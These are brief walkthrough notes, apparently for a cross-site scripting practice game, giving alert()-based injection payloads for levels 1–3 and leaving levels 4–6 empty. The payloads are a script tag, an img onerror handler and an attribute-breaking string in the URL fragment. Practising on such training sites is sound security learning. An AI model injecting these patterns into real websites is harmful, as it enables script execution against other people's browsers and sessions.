 # https://xss-game.appspot.com/

## Level 1
Insert
`<script>alert();</script>`
inside the input text box.

## Level 2
Insert
`<img src="asdgf.png" onerror="javascript:alert();" />`
inside the input text box.

## Level 3
Insert
`'onerror="alert();"`
into the URL bar after the #.

## Level 4

## Level 5

## Level 6

